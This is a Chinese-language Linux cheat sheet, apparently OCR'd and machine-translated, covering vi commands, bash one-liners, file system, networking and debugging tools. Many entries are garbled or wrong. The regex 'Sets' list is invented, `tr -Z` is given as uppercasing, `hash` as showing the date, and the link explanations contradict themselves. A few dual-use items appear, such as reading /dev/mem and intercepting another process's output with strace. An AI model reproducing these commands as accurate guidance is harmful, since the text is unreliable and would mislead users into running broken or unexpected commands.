- `:qa!` 退出所有（强制，即使未保存）

## 插入文本

这些命令用于通过插入、追加和替换来修改文本。你必须在命令模式下才能使用这些功能。

- `i` 在光标前插入
- `I` 在行首插入
- `a` 在光标后追加
- `A` 在行尾追加
- `o` 在当前行之后开启新行
- `O` 在当前行之前开启新行
- `r` 替换一个字符
- `R` 替换多个字符

## 光标移动

这些命令用于在屏幕和文档中移动光标。你必须在命令模式下才能使用这些功能。

- `h` 光标向左移动
- `j` 光标向下移动
- `k` 光标向上移动
- `l` 光标向右移动
- `w` 下一个单词
- `W` 下一个空白分隔的单词
- `b` 单词开头
- `B` 空白分隔单词的开头
- `e` 单词结尾
- `E` 空白分隔单词的结尾（上一个句子）
- `;` 句子向前移动
- `{` 段落后退
- `}` 段落向前移动
- `0` 行首
- `$` 行尾
- `1G` 文件开头
- `G` 文件末尾
- `nG` 文件的第 (n) 行
- `:n` 文件的第 (n) 行
- `fc` 向前到 (c)[字符]
- `Fc` 回到 (c)[字符]
- `tc` 向前到 (c)[字符] 之前
- `Tc` 回到 (c)[字符] 之前
- `H` 屏幕顶部
- `M` 屏幕中部
- `L` 屏幕底部
- `%` 移动到关联的 ( ), { }, [ \]

## 删除文本


这些命令用于删除屏幕和文档上的文本。你必须在命令模式下才能使用这些功能。

- `x` 删除光标右侧字符
- `X` 删除光标左侧字符
- `D` 删除到行尾的所有字符
- `dd` 删除当前行
- `:d` 删除当前行

## 修改文本

这些命令用于修改屏幕和文档上的文本。你必须在命令模式下才能使用这些功能。

- `C` 修改到行尾
- `cc` 修改整行

提示：`cw` 修改一个单词。

## 复制文本 (Yanking)

将此命令视为 GUI 中的“复制”（COPY）功能即可。你必须在命令模式下才能使用这些功能。

- `yy` 复制当前行
- `:y` 复制当前行

提示：`y$` 复制到行尾。

## 粘贴文本（用于复制文本后）

将此命令视为 GUI 中的“粘贴”（PASTE）功能即可。你必须在命令模式下才能使用这些功能。

- `p` 在位置或行之后粘贴文本
- `P` 在位置或行之前粘贴文本

提示：`在使用删除、修改、复制或粘贴命令之前，可以指定命名寄存器。你可以在任何这些命令前加上任何小写字母作为前缀，例如，如果你按下 "adw"这会删除一个单词并将其存入缓冲区 'a'）。现在，任何时候你按下 "ap"，它都会贴回修改过的文本。`

几乎每个命令前面都可以跟一个数字，指定你想要重复的次数。例如，`5dw`将删除 5 个单词，`3fe`将光标向前移动到字母 e 的第 3 次出现。甚至插入也可以重复。例如，插入 100 行相同的内容。

## 命名标记 (Markers)

命名标记可以设置在文件的任何一行上。标记名称可以是任何小写字母（`c` 代表你选择的命名标记）。标记也可以作为范围的限制。

- `mc` 在当前行设置标记 (`c`)
- `` `c `` 移动到标记 (`c`) 行的开头
- `'c` 移动到标记 (`c`) 行的开头

## 搜索文本

这些命令用于在文档中搜索文本。你必须在命令模式下才能使用这些功能。

- `/` Forward搜索
- `?` 向后搜索
- `n` 下一次出现
- `N` 上一次出现

## 正则表达式

这些是一些正则表达式命令，可以增强你搜索特定文本的能力。

- `.` 任意字符
- `^` 行首
- `$` 行尾
- `\n` 换行
- `\w` 单词字符
- `\d` 数字字符
- `\b` 单词边界
- `\B` 单词边界
- `*` 零或多个
- `+` 一个或多个
- `?` 零或一个
- `[]` 字符集
- `()` 分组
- `|` OR运算符

## 集合 (Sets)

集合是正则表达式功能的扩展，可以用于微调。

- `a` 不区分大小写的搜索
- `A` 不区分大小写的在行尾搜索
- `c` 匹配整个单词
- `C` 匹配整个单词在行尾
- `s` 匹配行除
- `S` 匹配行除，在行尾
- `d` 匹配数字字符
- `R` 匹配非数字字符
- `v` 匹配垂直字符
- `V` 匹配非垂直字符
- `z` 匹配小写字符
- `Z` 匹配非小写字符
- `w` 匹配单词字符
- `W` 匹配非单词字符
- `s` 匹配空白字符
- `S` 匹配非空白字符
- `^` 匹配任意字符
- `[^` 匹配集合外的字符

## 范围 (Ranges)

范围在一或多行上执行操作。你必须在命令模式下才能使用这些功能。

- `.` 当前行
- `$` 最后一行
- `%` 文件所有行
- `:.` 当前行
- `:n,m` n 到 m 行

注意：`范围可以与 *:s 命令结合，对多行进行替换。例如，,:s/pattern/g 将从当前行到文件结束的 pattern。`

## 文件命令

这些是一些文件命令，用于将数据读入编辑器并将其写回。你必须在命令模式下才能使用这些功能。

- `:r` 读取文件
- `:w` 保存文件
- `:x` 保存并退出

## 示例：正则表达式（高级）

这些是一些高级正则表达式命令，可以增强你在所在文档中搜索特定文本模式的能力。你必须在命令模式下才能使用这些功能。例如，按下 ESC 键然后输入 `/HelloWorld/` 来匹配所有包含的行。

注意：`正则表达式是区分大小写的`

- `/HelloWorld` 匹配包含 HelloWorld 的行
- `/^HelloWorld$` 匹配仅包含 HelloWorld 的行
- `/^[a-zA-Z]` 匹配以字母头的行
- `/^[a-z].*/` 匹配以 a-z开头且至少跟一个字符的行
- `/1234$` 匹配以 1234 结尾的行
- `/(43|76)` 匹配包含 43 或 76 的行

注意：`使用 ( ) 和管道符号指定“或”条件。`

- `/[0-9]*` 匹配行中的零或多个数字
- `/^[^#]` 匹配如果行首字符不是 #
- `[^^]` 匹配集合外的任意字符

例如，按下 ESC 键然后输入 `:r` `file_name` 可将文件读取到当前行之后的编辑器中。

`:e` `file` 编辑新文件 `:n` 跳到下一个文件 `:p` 跳到上一个文件 `:r !` `cmd` 将程序的输出读取到当前行之后的编辑器中。

`:r` `file` 将文件读取到当前行之后的编辑器中。

`:w >>` `file` 追加文件（若未指定名称则为当前文件） `:w` `file` 写入文件（若未指定名称则为当前文件）

## 杂项命令

这些是一些杂命令，用于在程序中执行各种功能。你必须处于命令模式才能使用这些功能。例如，按下 ESC 键然后输入 `u` 来撤销上一次更改。

- `~` 切换大写/小写。
- `.` 重复上一次文本更改命令
- `J` 合并行 `nJ` 将接下来的 (`n`) 行合并在一起；若省略 (`n`) 则将下一行的开头连接到当前行的末尾。
- `u` 撤销上一次更改。
- `U` 撤销该行的所有更改。
- `;` 重复上一次 `f` `F` `t` 或 `T` 搜索命令。

## Shell 函数

这些是一些 shell 命令，用于从其他程序引入数据并在文本编辑器中进行管理。你必须处于命令模式才能使用这些功能。例如，按下 ESC 键然后输入 `!!` `ps -aux` 执行一个 shell 命令，并将命令输出放在当前行。

- `:!` `cmd` 执行 shell 命令

注意：`添加这些特殊字符以表示：% 当前文件名 # 上一次编辑的文件名。`

- `!!` `cmd` 执行 shell 命令，并将命令输出放在当前行
- `:!!` 执行上一次 shell 命令
- `:r!` `cmd` 插入中插入命令的输出
- `:f` `file` 重命名当前文件
- `:w !` `cmd` 将当前编辑的文件作为 STDIN 发送到命令并执行它。
- `:cd` `dir` 更改当前工作目录。
- `:sh` 启动子 shell（CTRL+D 返回编辑器）
- `:so` `file` 读取并执行文件中的命令（文件为 shell 脚本）
- `!}sort` 从当前位置到段落末尾排序并替换文本。

## 设置命令

以下命令允许你配置 vi(m) 设置。这些命令允许你启用或禁用 vi(m) 中的功能，或更改其工作方式。

你必须处于命令模式才能使用这些功能。例如，按下 ESC 键然后输入 `set all` 在屏幕上显示所有已设置的选项。

下面的列表并不完整，但它提供了一些使用这些功能可以做的事情的示例。

- `:set all` 在屏幕上显示所有选项。
- `:set ai` 开启自动缩进。（默认：`noai`）
- `:set list` 显示制表符 (`^l`) 和行尾 (`$`)。（默认：`nolist`）
- `:set nu` 显示行号。（默认：`nonu`）
- `:set sm` 在输入 `{` 或 `(` 时输入 `)` 或 `}` 时显示匹配的项。（默认：`nosm`）
- `:set wm=n` 设置从右边界开始自动换行的 (`n`) 个空格。（默认：`wm = 0`）

注意：`可以将 SET 命令放入 .exrc 文件中，在 VI 启动时自动配置设置。`

## Linux 单行命令 (One-Liners)

### 概述

本章包含了一组中级命令/单行命令。本章中的命令比之前的章节更高级。它们可以执行更底层的功能，或者需要更多知识才能利用。

本章还引入了单行命令的概念，这对于更高级的应用程序、系统和设备操作非常有用。

注意：`某些命令和工具可能不是你的默认发行版的一部分，可能必须安装这些应用程序才能使用它们。`

## 命令与函数

BASH 允许你使用特殊分隔符将相似的命令组合成一行。其中某些命令将按顺序运行，而另一些命令在某个命令失败或成功时会有不同的结果。这完全取决于所使用的分隔符。

下面的示例显示了可以使用不同类型的分隔符来控制命令的执行顺序。

- 在单行运行多个命令（用分号 `';'` 隔开），例如：`command_1; command_2; command_3`
- 仅在第一个命令成功时才运行下一个命令，例如：`command_1 && command_2`
- 仅在第一个命令失败时才运行下一个命令，例如：`command_1 || command_2`


为了自动回答提示符，通过管道输入响应。例如（向命令或脚本发送字母 'y'）：`y | some_command`

通过在函数内部组合其他命令可以轻松创建自定义命令。要调用该函数，你只需要输入它的名称并为其传递参数。

在下面的示例中，通过输入第一行创建函数，然后输入函数名来执行它（即 `red`、`green` 或 `blue`）并输入你想要显示的文本。

注意：这些函数可以放在脚本中，也可以从命令行利用。这些函数仅在 shell 激活并存在于内存中才存在，除非将其添加到 `~/.bashrc` 文件中。

```
function blue() { echo -e "\033[34m$@\033[0m"; }
```
```
function green() { echo -e "\033[32m$@\033[0m"; }
```
```
function red() { echo -e "\033[31m$@\033[0m"; }
```

## 单行命令 (One-Liners)

单行命令是命令、参数值的有用组合，将多个操作合并成一行。这些单行命令可以在日常操作中执行特定任务或添加到脚本中。

记住：Linux 命令通常设计为只做好一件（核心哲学）。这意味着你通常不会看到设计用于多种功能的命令，但会有与其设计相关的许多选项。

## 系统命令

```
for i in {1..10}; do tr -cd '[:alnum:]' < /dev/urandom | fold -w20 | head -n1; done
```

定义一个简单的计算器函数，输入：`? { echo "$*" | bc -l; }` 示例：`? "4+5"` （当你输入 `?` 时会将方程传递给函数）将系统时间放在终端右上角，输入：`while sleep 1;do tput sc;tput cup 0 ($(tput cols));date;tput rc;done` 在终端右上角显示系统信息和当前时间，输入：`while true; do tput sc;tput cup 0 ($(tput cols));w | grep load;tput rc; sleep 10; done`

为命令创建别名，输入：`alias ai='sudo apt-get install'` 或 `alias au='sudo-get update'`

注意：执行这些别名安装新软件包，输入：`ai package_name`。执行第二个别名更新软件包，输入：`au`。删除任何别名，输入：`unalias alias_name`

提示：查看终端中设置的所有别名，输入：`alias`

要查看所有由你运行的进程，输入：`ps -aux | grep -v `whoami``

列出所有消耗更多 CPU 时间的进程，输入：`ps -aux --sort=-%cpu | grep -m 11 -v `whoami``

显示文件内部的一段文本，输入：`sed -n /**start_pattern**/,/**start_pattern**/p **input_file.txt**`

要学习一个随机的 Linux 命令，输入：`man $(ls /bin | shuf | head -1)`

为 man 手页创建一个 pdf 版本，输入：`man -t **regex** | ps2pdf --**output_file.pdf**`

将命令输出转换为图形，输入：`ifconfig | convert label:@- **output_file.png**`

另一个将命令输出转换为图形的示例，输入：`uname -a | convert label:@- **output_file.png**`

显示 BASH 中所有可用的键盘绑定，输入：`bind -P | grep -v "is not" | sed -e 's/can be found on/:/' | column -s: -t`

一个强大且模块化的日志着色工具，让读取日志文件变得更容易，输入：`tail */var*/log/syslog | ccze -A`

也可以将文件导出为 HTML，输入：`cat */var*/log/syslog | ccze -h > ~/Desktop/syslog.html`

注意：`ccze` 有针对 apm、exim、fetchmail、httpd 等等插件。要查看可用插件列表，输入：`ccze -l`

## 文件系统

这些单行命令用于执行文件系统级操作和功能。例如，查找和管理文件、管理文件权限等。

查找特定日期范围内的文件，输入：`find . -type f -newermt "2025-01-01" ! -newermt "2025-12-31"`

删除目录中所有不符合特定扩展的文件，输入：`rm !(\*\*.html | *****.php | *****.png\)`

递归删除当前路径下的所有空目录，输入：`find . -type d -empty -delete`

显示目录占用多少存储（高级），输入：`du -kx | egrep -v "\./.+/" | sort -n`

查看占用所有本地存储空间的前六个文件，输入：`du -hsx /* | sort -rh | head -6`

查找特定大小的文件，输入：`find . -type f -size 10M`

更改特定一组文件的权限，输入：`find ***path*****to/directory/** -type f -exec chmod 644 {} \;`

提示：重置目录权限 `find . -type d -exec chmod 0755 {} \;`

对目录中的每个文件执行命令：`for x in `ls -1`; do echo $x; done`

在特定路径下创建多个文件夹，输入：`mkdir -p **new_folder/**{**folder_1,folder_2,folder_3,folder_4**}`

将文件复制到多个目录，输入：`echo ***path*****to*****directory1*** ***path*****to/directory2/** ***path*****to/directory3/** | xargs -n 1 cp ***path*****to/file_name.ext`

统计目录中的文件数量，输入：`ls -l /bin | grep -v ^c | wc -l`

查看系统上的所有文件（或特定目录），输入：`find **/bin** -type f | less`

逐页查看系统上的所有目录（或特定目录），输入：`find / -type d | less`

创建任意大小的文件，输入：`dd if=/dev*/zero of=**output_file.txt** bs=1M count=10`

列出仅今天更改的文件，输入：`ls -al --time-style=+%D | grep `date +%D``

在配置文件中仅显示非空行（同时也删除注释行），`grep '^\[^#\]' */etc*/syslog.conf`

创建压缩存档（即 TAR 文件），输入：`tar -czvf **file_name.tar.gz** ***path*****to/directory/**`

解压存档，输入：`tar -xzvf **file_name.tar.gz**`

快速移动并重命名带后缀的文件，输入：`cp ***path*****to/directory/Really_Long_File_Name.cpp**{,,-old}`

注意：此命令将生成一个名为 ***pathto/directory/Really_Long_File_Name.cpp-old*** 的新副本

使用 'pushd' 和 'popd' 将你的路径视为数组，输入：`cd ***directory1*****directory2/directory3*; pushd .; cd /bin; popd`

注意：'pushd' 存储最后一个目录路径，'popd' 允许你稍后返回那里。

比较两个目录并显示它们的差异，输入：`comm -3 <(ls **directory1**) <(ls **directory2**)`

注意：将参数从 -3 改为 -2 或 -1 或全部删除以控制列抑制。

同步两个目录，输入：`rsync -avzh **/directory1 /directory2`

## 处理文本

杀死锁定文件的进程，输入：`fuser -k **file_name.ext**`

将 .iso 文件挂载为 CD，输入：`sudo mount ***path*****to/file_name.iso**`

这些命令用于处理文件内容，允许你提取数据或更改其格式。

从文件中提取第 1 和第 3 列并输出到文件，`awk '{print $1,$3}' input_file > output_file`


## 提示
`col1..9` 是使用 `awk` 命令的简单替代方案。`col1` 只是一个根据名称分割并打印列的简单脚本。

### 示例
- 示例 a：`mount | awk '{print $3}'`
- 示例 b（等同）：`cat passwd | awk -F":" '{print $7}'`

- 从文件中输出第 8 到 15 个字符并输出到文件，`cut -c 8-15 input_file > output_file`

- 将文件中的字符串替换并输出到文件，`sed "s/search_word1/search_word2/g" input_file > output_file`

- 将文件的任何字符替换为另一个字符，`cat input_file | tr`

- 将文件内容转换为大写，`cat input_file | tr -Z > output_file`

- 显示输出中所有不同的出现次数，`history | awk '{ print $2 } | sort | uniq -c`（移除文件的不可见字符），`while IFS= read line; do echo "$line"; done < input_file > output_file`

**注意：** 将 `file.txt` 替换为你想要的文件。

## 网络

这些单行命令用于执行网络级操作和功能。例如，共享文件、监控连接等。

- 显示每个主机的连接数，`netstat -an | grep ESTABLISHED | awk '{print $5}' | awk -F: '{print $1}' | sort | uniq -c | awk '{ printf("%s\t%s",$2,$1) }'`

- 通过 HTTP 端口 80 共享文件，`sudo nc -v -l 80 < file_name.ext`

**注意：** 打开浏览器机器的本地 IP 地址

- 查询域名和所有者信息，`whois example.com`

- 安装命令，`sudo apt-get install whois` 或 `yum install whois`

- 下载整个网站，`wget --random -p -e robots=off -U http://www.example.com`

- 搜索并过滤网络包，`ngrep -O network_capture.pcap -q 'HTTP'`

- 安装命令，`sudo apt-get install ngrep` 或 `yum install ngrep`

- 从特定 ETH1 接口捕获流量，`tcpdump -i eth1 -s0 -v -w tmp_capture.pcap`

- 显示系统上的所有用户，`lslogins` 或 `lslogins user_name`

- 从一个位置备份到另一个位置，`rsync -vare ssh user@192.168.0.100:path/to/directory/home/user/backup/`

- 测试远程端口是否打开，`curl -s example.com:80 >*/dev/null && echo Success || echo Fail`

- 更高级的版本（根据需要替换 IP 和 PORT 参数），`IP="example.com" ; PORT="80" ; curl -s "$IP:$PORT" > */dev/null && echo "Success connecting to $IP on port $PORT." || echo "Failed to connect to $IP on port $PORT."`

- 单行示例的另一个版本，`timeout 1 bash -c "<*dev*/tcp/example.com/80" && echo Port open || echo Port closed`

- 更简单的版本，`nc -vz example.com 80` 或 `telnet example.com 80`

显示你的外部 IP 地址，类型：`dig +short myip.opendns.com @resolver1.opendns.com`

无论网络接口如何，显示本地 IP 地址，类型：`ifconfig | sed '*inet*!d;/127.0/d;/dr:\\s/d;s/^.\*:\(.\*\\)B.\*$/\\1/'`

显示实时无线信号信息，类型：`watch -n 1 cat /proc/net/wireless`

显示正在使用网络连接的应用，类型：`ss -p`

发现哪个程序正在使用特定端口，类型：`lsof -i tcp:443`

## 高级命令

**概述：** 本章包含了一组高级命令和单行命令。这些单行命令比上一章中的命令更高级。它们可以执行更低层的功能，或者在使用它们时需要更多知识。

为了组织内容，本章被分为不同的部分（例如系统命令、文件系统、网络等），以便于查找和理解。

**注意：** 某些命令和实用程序可能不是你默认发行版的一部分，可能需要安装这些应用程序才能使用。

### 系统命令

本节列出的这些系统命令和实用程序用于执行高级系统功能和操作。例如，管理系统时间、进程、软件包等。

同步时钟，类型：`sudo ntpdate -s us.pool.ntp.org`

在多个 Linux 服务器上运行相同的命令，类型：`for in $i$(cat list.txt); do ssh user@$i 'bash command'; done`

**注意：** 此示例要求你先创建一个名为 `list.txt` 的文件，其中包含你想要执行命令的服务器名称。

查看硬件硬件时钟的时间，类型：`sudo hwclock`

设置时间，类型：`sudo hwclock --set --date="02/20/2020 20:20:00"`

查看所有运行中的进程（实时更新），类型：`top`

如需更健壮的进程管理器，类型：`htop`

安装该命令，类型：`sudo apt-get install htop`

-OR- `sudo yum install htop`

`multitail` 同时监控多个日志文件，还支持文本高亮、过滤等许多其他功能。例如，类型：`multitail /var/log_file1.log /var/log_file2.log` 安装该命令，类型：`sudo apt-get install multitail`

-OR- `sudo yum install multitail`

**MULTITAIL 示例（显示两个日志文件）** 监控任何工具的输出（命令按固定间隔刷新输出），类型：`watch df`

监控大文件的类似命令，类型：`while ls -la file_name do sleep 5; done` 在后台运行任何程序并关闭 shell，类型：`nohup wget example.com/file_name.zip`

**注意：** 在同目录下会生成一个名为 `nohup.out` 的文件，该文件包含运行程序的输出。

`xargs` 允许你将一个命令的输出传递并作为另一个命令的参数，类型：`find . -name "*.log" -type f -print | xargs tar -cvzf logs.tar.gz` 示例：将 URL 列表附加到 WGET 命令末尾，类型：`cat links.txt | xargs wget`

**注意：** 此示例要求你先创建一个名为 `links.txt` 的文件，其中包含你想要执行命令的 URL 列表。

列出系统上安装的所有 Debian 软件包，类型：`dpkg --get-selections > debian_list.txt` 在另一个系统上重新安装这些 Debian 软件包，类型：`dpkg --set-selections < debian_list.txt`

**注意：** `/etc` 目录下的配置文件可能需要复制到新系统，以便这些软件包能够正常工作。

`~/.bashrc` 是 BASH 在每次初始化 shell 会话时运行的脚本。当你登录本地终端或远程会话时，可以在此文件中放置任何你自定义命令或函数。

将以下命令添加到 `~/.bashrc` 以帮助自动修复文件或路径错误，类型：`shopt -s cd`

**提示：** 将以下命令添加到 `~/.bashrc` 以为 LESS 页面添加颜色，类型：

## 为 LESS 页面添加颜色

```
export LESS_mb=$'\e[01;31m'
export LESS_md=$'\e[01;33m'
export LESS_me=$'\e[01m'
export LESS_se=$'\e[01m'
export LESS_so=$'\e[01;42;30m'
export LESS_ue=$'\e[01m'
export LESS_us=$'\e[01;36m'
```


通过分析你的命令来定期查看前 10 个实用程序，类型：`history | awk 'FS="\t"} {print $3}' | sort | uniq -c | sort -nr`

**提示：** 有一个类似的命令显示当前日期，类型：`hash`

使补全区分大小写，类型：`echo 'set completion-ignore-case' >> ~/.bashrc; echo 'set completion-ambiguous' >> ~/.bashrc`; 更改需要重启会才能生效。

在进程之间切换终端，类型：`screen`

启动一个进程来测试应用程序，类型：`ping localhost`

按 `Ctrl+A` 帮助，按 `Ctrl+D` 离线（这将带你回到终端）。

显示 BASH 中可用的 256 种颜色的数值值，类型：
```
for((i=0; i<256; i++)); do printf "\e[48;5;${i}m%03d" $i; ((i % 8) -eq 0)) && printf '\n'; done
```
`screen` 命令可以复用多个终端。

查看后台运行的终端列表，类型：`screen -ls`

重新连接后台运行的终端，类型：`screen -r`

完成后，类型：`exit` 回到原始窗口。

**注意：** *此程序的功能比教程显示的更多。阅读文档获取更多示例。*

`vmstat` 命令提供内存交换利用、I/O 等待和系统活动的信息，类型：`vmstat 1 20`（参数每秒运行命令二十次）**注意：** *此命令非常适用于诊断 I/O 相关问题。*

## 文件系统

这些是更高级的单行命令和指令，用于执行文件系统级操作。例如存储性能测试、创建文件的快捷方式、管理文件等。

### 创建文件快捷方式（链接）

Linux 中可以创建两种文件快捷方式（即链接）：硬链接和软链接。硬链接可以是同一卷的文件和目录。软链接（即符号链接）可以是不同卷的文件和目录。

使用链接（硬链接或软链接）的优点是，修改链接文件时就像修改原始文件，因为它们可能位于原始文件的不同位置。它只是一个指针（即它字面上指向磁盘上的文件），引导文件系统使用正确的文件。

硬链接是一个单独的文件，包含关于原始文件及其位置的信息，类型：`cp -l` `file_name1` `file_name2`

**注意：** *如果你删除原始文件，硬链接将防止文件被删除。如果你想删除文件，也必须移除硬链接。*

创建硬链接的替代命令，类型：`ln` `file_name1` `file_name2`

如果你需要在不同的物理驱动器上创建链接，必须创建软链接，类型：`cp -s` `file_name1` `file_name2`

**注意：** *如果你删除原始文件 test.txt，它也会删除快捷方式 test1.txt。输出显示了 test1.txt 的链接，它是原始文件的快捷方式：test.txt : lrwxrwxrwx 1 jane root 11 May 20 12:23 test1.txt -> test.txt -rw-rw-rw-1 jane root 1242 May 20 12:19 test.txt 创建硬链接的替代命令，类型：`ln -s` `file_name1` `file_name2`（注：OCR 建议这是用于软链接）。*

`tree` 命令的替代方案，类型：`ls -R | grep ":$" | sed -e 's/:$/*' -e 's\[^-\][^\/\]\//--/g' -e 's/^/ *' -e 's\-/|/'`

扫描文件以检查是否包含特定的文本字符串，类型：`grep -Pri "Search_Term" Path_to_Directory/*.log`

**提示：** *启用 grep 自动着色，类型：`alias grep="grep --color=auto"`*

在当前目录递归查找包含指定文本字符串的文件，类型：`grep -H -r "string" ./*`

Midnight commander (`MC`)，让文件系统导航变得更容易。

安装该命令，类型：`sudo apt-get install mc`

-OR-`sudo yum install mc`

**Midnight commander** 命令行管理器删除大文件（擦除内容并留一个空文件），输入：`>` `path` `to/large_file.log` 如何修复因不小心将文件解压到错误目录而导致的混乱，输入：`tar ztf` `path` `to/file_name.tar.gz` | `xargs -d'\n' rm -v` 查看某个路径下所有文件和子目录的列表，输入：`tree` `/home` 要安装该命令，输入：`sudo apt-get install tree` OR-`sudo yum install tree`

轻松地将文本文件转换为 Windows 或 UNIX 格式，输入：使用 `awk` 将 Windows 文本文件转换为 UNIX 格式，输入：`awk '{ sub("\r$", ""); print }'` `windows_file.txt` `>` `unix_file.txt` 使用 `awk` 将 UNIX 文本文件转换为 Windows 格式，输入：`awk 'sub("$", "\r")'` `unix_file.txt` `>` `windows_file.txt` 使用 `diff` 工具可以比较两个命令的输出而无需创建临时文件：`diff <(ls directory_name1) <(ls directory_name2)` 创建一个在你输入 `cd` 时会自动执行 `ls` 的函数（例如 `cd '/bin'`），输入：
```
cd() { builtin cd -- "$@" && { [ "$PS1" = "" ] || ls -hrt --color; }; }
```

在屏幕顶部创建一个信息栏，输入：`PS1='\[\e[s\e[7m\e[1;1H\]\w\n\t \j *\! \#\[\e[u\e[0m\e[33;1m\]\[@\h \[\e[34m\]\W\[\e[0m\]\$ '`

**Tip:** *为了增强 'clear' 命令使其与信息栏配合，*输入：*`alias clear='echo -e "\e[2J\n"'`*

查找系统上所有 world的文件，输入：`find / -type f -perm -o+w -exec ls -l {} \;`

## Networking

这些是更高级的单行命令和指令，用于执行网络操作和功能。例如，扫描机器机器端口、列出与远程机器的连接、设置临时文件服务器等。

NMAP：是一个非常强大的网络扫描工具（更多信息请访问：https://nmap.org）要安装该命令，输入：`sudo apt-get install nmap` OR-`sudo yum install nmap`

**Tip:** *想要玩玩 nmap，输入：*`nmap -oS example.com`* OR-`nmap -oS - scanme.nmap.org`* （额外的 [-] 连会将输出转换为 L33t，即“脚本小子”模式）

要获取流量统计数据，输入：`iptraf-ng` 要安装该命令，输入：`sudo apt-get install iptraf-ng` OR-`sudo yum install iptraf-ng`

识别哪些文件打开了进程，使用：`lsof`

**Note:** *在 Linux 环境中，文件可以是网络连接。*

NETCAT (`nc`) 是一个设计用于重定向目标（一个管道 |）的工具。

示例：`echo -e "GET http://example.com HTTP/1.0\n\n" | nc example.com 80` （下载网页源代码）

在应用程序运行时分析日志文件，输入：`tail -f path_to_log | grep search_term` 服务器日志可以 gzip 压缩以节省本地存储空间，另见 'Z' 命令的替代方案（例如 zless, zcat, zgrep 等）可以处理压缩日志文件。

`vnstat` 收集从任何配置接口所需的流量。要安装该命令，输入：`sudo apt-get install vnstat` OR-`sudo yum install vnstat`

**Note:** *收集内核数据而非接口数据，对系统的执行负担轻。*

列出处于监听状态的开放网络端口，输入：`netstat -lnp`

过滤 'netstat' 命令，输入：`netstat -c | grep 'State'`

使用 Python 建立临时 http 服务器：`python -m SimpleHTTPServer` (*这将运行命令的当前目录可以通过机器 IP 的 8000 端口 HTTP 访问*），然后使用以下命令在远程系统下载并提取文件，输入：`wget -qO - http://192.168.0.100:8000/file_name.bz2 | tar xjvf -`


**Tip:** *要为此命令创建一个别名，输入：* `alias webshare='python -m SimpleHTTPServer'`

在退出 `ssh` 会话后运行命令，输入：`nohup wget http://mirror.example.com/mirror/64bit.iso &` 例如，如果在树莓派上下载大文件而不使用 `nohup` 命令，你必须等待下载完成才能退出 `ssh` 会话并关闭笔记本。查看每 10 秒刷新一次文本网页，输入：`watch --interval=10 lynx -dump http://example.com/statistics.html` 要安装该命令，输入：`sudo apt-get install lynx` OR-`sudo yum install lynx`

刷新 DNS 缓存，输入：`sudo service network restart` OR-`sudo init.d/network restart` 列出所有网络连接和相关应用，输入：`lsof -nP` 显示到 80 端口 Web 服务器的 IP 连接，输入：`netstat -plane | grep :80 | awk '{print $5}' | grep -Eo '[0-9]{1,3}\.){3}`

## Advanced Functions

通过端口 5000、5001、5002（或任何你想要的）广播 shell 输出，输入：`script -q | tee >(5000) >(5001) >(5002)` 访问 shell，输入：`your_ip_address` 拦截另一个进程的 STDOUT 和 STDERR，输入：`strace -ff -e write=1,2 -p` **Note:** *要测试此命令，打开两个终端，分别运行 `ps -aux`* 查看内存的字符串内容（纯文本）：`sudo dd=/dev/mem | strings` 查看文件复制进度，输入：`pv` **input_file** > **output_file** **Note:** *`pv` 允许用户查看通过管道的数据进度，显示已通过、完成百分比、当前吞吐量、总传输数据和预计剩余时间。*

为文件创建摘要，输入：`openssl dgst -sha256 -hex` **sample.txt** **Note:** *摘要可以告诉你文件是否发生了变化。*

垂直或水平分割屏幕，输入：`tmux` 垂直分割按 `Ctrl+B` 然后 `Shift+5` 水平分割按 `Ctrl+B` 然后 `Shift+"` 杀死屏幕，输入：`exit` 获取帮助，输入：`man tmux`

`asciiview` 生成图片的复合图像，输入：`asciiview` **input_file.png** 按 'H' 帮助或按 'Q' 退出。从图片提取文本（即 OCR），输入：`tesseract input_file.png output_file.txt` 要安装该命令，输入：`sudo apt-get install tesseract-ocr` 更多信息请访问：`https://github.com/tesseract-ocr/tesseract/wiki`

**Tip:** *如果你在 OCR 文档时遇到问题，尝试将图片放大到 480%，将其转换为灰度，用白色填充，并锐化，然后尝试提取文本。* 否则rad否则，如果文档字体很大，将其缩放为 200% 或 300%。`convert -colorspace gray -fill white -resize 480% -sharpen`

将图片从一种大小转换为另一种大小，输入：`convert -resize 50%` **input_file.png output_file.jpg** 如果未安装此包，输入：`sudo apt-get install imagemagick` 更多信息请访问：`http://www.imagemagick.org/script/download.php` 显示正在进行的库调用（用于程序调试）：`ltrace echo` 显示正在进行的系统调用（用于程序调试）：`strace echo` 录制屏幕并将其转换为 mpeg 视频，输入：`ffmpeg -f x1grab -r 25 -s 800x600 -i :0.0 tmp*****output_file.mpg` **Note:** *捕捉 X11 输入并以 25 fps 和 800x600 分辨率创建 MPEG*

下载 YouTube 视频，输入：`youtube-dl` **URL_of_video** 如果未安装此包，输入：`sudo apt-get install youtube-dl` OR-`sudo yum install youtube-dl` 从视频文件中提取音频，输入：`mplayer -ao pcm -vo null -vc dummy -dumpaudio -dumpfile` **output_file** **input_file** 转码（即将一种数字格式转换为另一种）从一种格式转换为另一种格式，输入：`mencoder` **sample_movie.wmv** -o **sample_movie.avi** -ovc lavc -oac lavc **Note:** *对 `youtube-dl`, `mencoder`, `mplayer` 的引用仅作为 Linux 中可用某些音频视频工具和功能的示例。*

## 通配符与正则表达式

**概述：** 本章将概述通配符（Wildcards）和正则表达式（Regular Expressions）。通配符允许你替换一个或多个文本字符。而正则表达式允许你编写一个表达式来匹配文本模式。

通配符允许你在一个字符字符串中替换一个或多个字符。这些被替换的模式通常非常简单。例如，如果你有三个想要删除的文件，文件名如下：`file1.txt`, `file2.txt`, `file3.txt`。执行命令 `rm file???.txt` 就会删除这些文件。`?`（问号）是任意单个字母或数字的通配符。

正则表达式允许你编写一个表达式来匹配文件或程序输出（即标准输出 STDOUT）中的字符字符串模式。这些模式的范围从简单到非常复杂，取决于你尝试匹配的内容。

在本节的后后部分，我们将更深入地讨论一些正则表达式模式匹配的示例。不过，这只是一个旨在向你简要介绍该技术的入门教程。

## 通配符

通配符经常用于选择一组具有相似名称的文件以执行某种类型的文件操作。尽管如此，其他应用程序也会使用通配符来搜索其他类型的数据。

有两种类型的通配符运算符：

- **?** = 代表仅一个字符 [a-z], [A-Z], [0-9]

  **示例：** `chmod 777 ???file`（影响当前目录中名称类似于 001file, 002file, 等的文件）

- ***** ** =** 代表一个或多个字符 [a-z], [A-Z], [0-9]

  **示例：** `chmod 777 *`（影响当前目录下的所有文件）

## 正则表达式

